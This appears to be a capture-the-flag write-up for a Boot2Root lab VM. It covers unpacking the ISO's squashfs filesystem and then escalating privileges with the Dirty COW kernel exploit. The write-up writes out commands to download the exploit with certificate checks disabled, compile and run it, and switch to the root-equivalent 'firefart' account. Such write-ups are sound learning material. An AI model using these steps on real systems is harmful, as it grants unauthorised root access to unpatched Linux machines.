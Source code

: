 ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
```

## Unsquash

![Squash](https://s3.amazonaws.com/finecooking.s3.tauntonclud.com/app/uploads/2017/04/24170702/ING-butternut-squash-thumb1x1.jpg)

In order to better understand the file structure we can explore the ISO file by simply opening it.

There we find a .squashfs file corresponding to the compressed system.
It is possible to uncompress it in order to explore it:

```unsquashfs -f /Path/to/source/filesystem.squash.fs -d /Path/to/destination```


from there we can freely explore the system 

-----------------------------------------------------------------------------------------


## Privilege escalation

Now that we can connect as a low level user, we can attempt to use existing exploits that will grant us root access. These exploit are possible for certain versions of the kernel/OS/Architecture/distribution/Package_list running the server.

We can write download and execute external scripts in /tmp 

We used an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) in order to recommend exploits from [www.exploit-db.com](https://www.exploit-db.com/) 

One exploit named dirtycow 2 fits perfectly to the VM's specs

- How
  - The In The Wild exploit relied on writing to /proc/self/mem on one side of the race.
  - ptrace(PTRACE_POKEDATA) can write to readonly mappings.
  - The attack relies on racing the madvise(MADV_DONTNEED) system call while having the page of the executable mmapped in memory.

Let's fetch it from within the ssh access ```wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c```

Don't forget to chmod 755 and to compile with ```gcc -pthread dirty.c -o dirty -lcrypt```

Then just run it and provide a new password when prompted and ```su firefart```.

![Congrats](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats.png)

***Congratulations! we just supplanted the root user*** 





  

